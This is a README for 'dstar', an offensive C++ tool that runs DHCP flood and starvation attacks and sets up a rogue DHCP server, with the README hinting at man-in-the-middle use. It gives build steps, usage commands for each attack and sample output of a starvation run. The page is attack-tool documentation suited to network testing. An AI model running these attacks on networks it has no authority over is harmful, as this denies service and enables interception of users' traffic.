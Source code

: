 ![](https://img.shields.io/badge/Language-C++-orange.svg)
![](https://img.shields.io/badge/version-1.0.0-green.svg)
[![GPLv3 License](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://www.gnu.org/licenses/gpl-3.0.html)

# Dstar :hammer:
This tool implement various DHCP attacks and can be used to make experiments and test on __your network__!

Supported features:
- Flood -> Flood DHCP server with large amount of DHCP discover messages (this attack does not acquire addresses!)
- Starvation -> Try to acquire all addresses in DHCP pool, you can use this option with a rogue DHCP server... MITM? :smirk:
- Built-in rogue DHCP server

# Setting up dstar #

First of all getting the code from repository:

    $ git clone https://github.com/jacopodl/dstar

Compile it with followings command:

    $ cd dstar
    $ git submodule init && git submodule update
    $ cmake .
    $ make

Or if you are very busy:

    $ ./build.sh

# Usage example #
Flood DHCP server with discover messages:

    $ sudo ./dstar %interface% --flood

Exhaust DHCP pool and release all addresses on exit:

    $ sudo ./dstar %interface% --starvation

without release addresses:

    $ sudo ./dstar %interface% --starvation --no-release
    
Setting up rogue DHCP server with the stolen addresses:

    $ sudo ./dstar %interface% --starvation --server

Getting help with:

    $ ./dstar --help
    
# Action snapshot :camera:

    $ sudo ./dstar %interface% --starvation

    @@@@@@@    @@@@@@   @@@@@@@   @@@@@@   @@@@@@@
    @@@@@@@@  @@@@@@@   @@@@@@@  @@@@@@@@  @@@@@@@@
    @@!  @@@  !@@         @@!    @@!  @@@  @@!  @@@
    !@!  @!@  !@!         !@!    !@!  @!@  !@!  @!@
    @!@  !@!  !!@@!!      @!!    @!@!@!@!  @!@!!@!
    !@!  !!!   !!@!!!     !!!    !!!@!!!!  !!@!@!
    !!:  !!!       !:!    !!:    !!:  !!!  !!: :!!
    :!:  !:!      !:!     :!:    :!:  !:!  :!:  !:!
     :::: ::  :::: ::      ::    ::   :::  ::   :::
    :: :  :   :: : :       :      :   : :   :   : :
                                                     vX.x.x
    
    
    [<---] DHCP DISCOVER
    [--->] DHCP OFFER
    [<---] DHCP REQUEST
    [--->V] DHCP ACK
    	Ip:192.168.1.99 - MAC:52:c5:b9:35:0c:42 lease(s):21600
    
    [<---] DHCP DISCOVER
    [--->] DHCP OFFER
    [<---] DHCP REQUEST
    [--->V] DHCP ACK
    	Ip:192.168.1.118 - MAC:12:3c:09:28:ac:cb lease(s):21600
    
    [<---] DHCP DISCOVER
    ^CStopping...
    Releasing addresses...
    All done!

# Possible improvements: #
- Multithread capability
- DHCPv6
